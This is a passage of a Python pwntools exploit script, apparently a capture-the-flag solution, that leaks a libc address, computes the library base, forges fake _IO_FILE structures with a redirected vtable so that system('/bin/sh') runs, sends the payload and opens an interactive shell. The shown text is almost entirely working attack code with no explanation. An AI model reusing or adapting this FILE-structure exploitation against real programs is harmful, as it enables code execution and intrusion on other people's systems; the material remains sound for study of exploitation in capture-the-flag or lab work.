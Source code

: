 ```python
    close_file(p)

read_content(p, 1)
libc_arena = u64(p.recvn(17)[9:])
libc_base = libc_arena - 0x3ebca0

log.success('libc_arena : ' + hex(libc_arena))
log.success('libc_base  : ' + hex(libc_base))
debug(p, 'b *0x401017\n')

for idx in range(1, 9):
    open_file(p, idx)
open_file(p, 1)

vtable = libc_base + 0x3e82a0
rdi = libc_base + next(libc.search('/bin/sh'))
system = libc_base + libc.symbols['system']

choice_string = 0x602100

target = choice_string + 0x8

chunk1 = [
        p64(0x0),
        p64(0),  # _IO_read_ptr
        p64(0),  # _IO_read_end
        p64(0),  # _IO_read_base
        p64(0),  # _IO_write_base
        p64((rdi-100)/2),  # _IO_write_ptr            
        p64(0),  # _IO_write_end                      
        p64(0),  # _IO_buf_base                      
        p64((rdi-100)/2),  # _IO_buf_end
        p64(0)*4,  # _IO_save_base ~ #_markers
        p64(0),  # chain
        p64(4),  # fileno
        p64(0),  # _flags2
        p64(0),  # _old_offset
        p64(0x602110),
        p64(0),
        p64(0)
    ]
chunk2 = [
        p64(0)*5,
        p64(libc_base + libc.symbols['_IO_file_jumps'] + 0xd8 - 0x10),
        p64(system),  # _s._allocate_buffer
    ]

chunk1 = ''.join(chunk1)
chunk2 = ''.join(chunk2)

buf = '4'.ljust(8, '\x00')
buf += chunk1
buf += p64(target)
buf += p64(0)
buf += chunk2
p.sendline(buf)

p.interactive()
```
